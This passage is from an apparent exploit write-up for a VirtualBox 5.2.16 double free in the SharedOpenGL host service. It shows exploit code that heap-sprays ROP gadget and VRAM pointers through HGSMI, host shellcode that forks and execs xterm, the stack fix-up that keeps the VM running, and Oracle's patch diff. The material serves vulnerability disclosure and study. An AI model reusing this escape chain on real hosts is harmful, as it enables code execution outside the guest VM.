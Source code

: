 ```c++
		bool spraySelector = 1;
		for (uint32_t off = bufferOffset; off < bufferOffset + 				currentBufferSize; off += sizeof(uint64_t)) {
			if (spraySelector) {
				*(uint64_t*)(pData + off) = rop_1;
			} else {
				*(uint64_t*)(pData + off) = vram_ptr;
			}
			spraySelector = !spraySelector;
		}
		int rc = VBoxHGSMIBufferSubmit(guestCtx, pShgsmiHdr);
		if (!RT_SUCCESS(rc)) {
			return STATUS_UNSUCCESSFUL;
		}
	}
	/* Create H3DORInstance (display) */
	MySendCrCmdFlip(pDevExt, pContext, hostId, i);
	RTThreadSleep(500);
}
```
**Shellcode and Process Continuation**<br>
When the call to the rop gadget is performed we are jumping into the shellcode residing in mapped VRAM:

```assembly
gef➤  x/19i $pc
=> 0x7f8478000000:	mov    rax,0x3a
   0x7f8478000007:	syscall
   0x7f8478000009:	test   rax,rax
   0x7f847800000c:	jne    0x7f8478000048
   0x7f847800000e:	lea    rsi,[rip+0x4e]        # 0x7f8478000063
   0x7f8478000015:	mov    QWORD PTR [rip+0x6b],rsi        # 0x7f8478000087
   0x7f847800001c:	lea    rsi,[rip+0x57]        # 0x7f847800007a
   0x7f8478000023:	mov    QWORD PTR [rip+0x6d],rsi        # 0x7f8478000097
   0x7f847800002a:	lea    rdi,[rip+0x32]        # 0x7f8478000063
   0x7f8478000031:	lea    rsi,[rip+0x4f]        # 0x7f8478000087
   0x7f8478000038:	lea    rdx,[rip+0x58]        # 0x7f8478000097
   0x7f847800003f:	mov    rax,0x3b
   0x7f8478000046:	syscall
   0x7f8478000048:	mov    rdi,QWORD PTR [rsp+0x1c8]
   0x7f8478000050:	add    rbp,0x2b0
   0x7f8478000057:	add    rsp,0x1d0
   0x7f847800005e:	xor    rax,rax
   0x7f8478000061:	push   rdi
   0x7f8478000062:	ret
```
The shellcode does fork+execve to spawn xterm in the child process. To continue execution of the virtual machine, we must configure RBP and RSP in such way that the RET instruction will return us back to svcHostCallPerform function where the RDP connection closure was initiated. In order to do so, one adds 0x2B0 to RBP and 0x1D0 to RSP.

**Patch**<br>
Oracle has fixed the vulnerability by moving the function call causing the double free out of the loop:
```c++
--- VirtualBox-5.2.16/src/VBox/HostServices/SharedOpenGL/crserverlib/presenter/display_base.cpp
+++ VirtualBox-5.2.18/src/VBox/HostServices/SharedOpenGL/crserverlib/presenter/display_base.cpp
@@ -326,10 +326,10 @@
             WARN(("err"));
             break;
         }
-
-        CrFbVisitCreatedEntries(mpFb, entriesDestroyCb, this);
     }
```